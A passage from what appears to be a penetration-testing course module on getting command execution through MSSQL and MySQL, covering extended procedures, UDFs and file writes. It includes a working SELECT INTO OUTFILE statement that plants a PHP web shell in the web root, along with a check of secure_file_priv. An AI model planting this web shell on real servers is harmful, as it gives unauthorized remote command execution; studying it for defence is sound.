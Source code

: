 There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.

## Write Local Files

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. Then we can browse to the location where the file is and execute our commands.

#### MySQL - Write Local File

```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

#### MySQL - Secure File Privileges

```shell-session
show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```
